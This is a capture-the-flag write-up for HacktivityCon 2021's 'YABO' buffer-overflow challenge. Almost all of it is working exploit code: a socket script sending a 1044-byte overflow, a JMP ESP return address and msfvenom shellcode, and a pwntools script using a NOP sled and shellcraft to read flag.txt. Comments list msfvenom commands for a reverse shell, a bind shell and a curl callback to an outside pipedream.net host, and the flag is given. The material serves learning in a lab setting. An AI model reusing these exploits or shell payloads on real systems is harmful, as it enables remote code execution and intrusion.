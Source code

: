 ```yaml
---
name: YABO - Yet Another Buffer Overflow (2021)
event: HacktivityCon CTF 2021
category: Pwn
description: Writeup for YABO - Yet Another Buffer Overflow (pwn) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# YABO - Yet Another Buffer Overflow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=3195s "HacktivityCon 2021: YABO - Yet Another Buffer Overflow")

## Challenge Description

> Some certifications feature a basic windows buffer overflow. Is the linux version really that different?

## Solution

#### msfvenom_payload.py

```py
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 9999))

print(client.recv(1024))

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b '\x00' -f python
# msfvenom -p linux/x86/exec CMD="curl https://en4i3omt29wvgco.m.pipedream.net" -b '\x00' -f python
# msfvenom -p linux/x86/shell_bind_tcp PORT=1337 -b '\x00' -f python
# msfvenom -p linux/x86/read_file PATH=flag.txt FD=4 -b '\x00' -f python

# FD = 4
buf = b"A" * 1044
buf += b"\xe2\x92\x04\x08"  # ropper found JMP ESP
buf += b"\x90" * 10
buf += b"\xd9\xec\xd9\x74\x24\xf4\x5a\x31\xc9\xbe\x8b\x25\xd9"
buf += b"\x0b\xb1\x12\x83\xc2\x04\x31\x72\x15\x03\x72\x15\x69"
buf += b"\xd0\x32\x3d\xd5\x1e\xc5\x42\x25\x7a\xf4\x8b\xe8\xfc"
buf += b"\x7f\xc8\x4a\xff\x7f\xcf\xaa\x89\x67\x46\x53\x33\x67"
buf += b"\x49\xa3\x44\xa5\xe9\x2a\x86\x8d\xee\x2c\x07\xee\x55"
buf += b"\x28\x07\xee\xa9\xfd\x87\x56\xa8\xfd\x87\xa6\x10\xfd"
buf += b"\x87\xa6\x66\x30\x07\x4e\xa3\x35\xf7\x70\x4a\xa5\x69"
buf += b"\xe8\xbd\x41\x12\x82\xc1"

client.send(buf)
print(client.recv(1024))
client.close()
```

#### pwntools_exploit.py

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './yabo'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 1044

jmp_esp = 0x80492e2

# Start program
io = start()

# Build the payload
payload = flat([
    asm('nop') * offset,
    jmp_esp,
    asm(shellcraft.cat('flag.txt', fd=4))
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)

# Got Shell?
io.interactive()
```

Flag: `flag{2f20f16416a066ca5d4247a438403f21}`
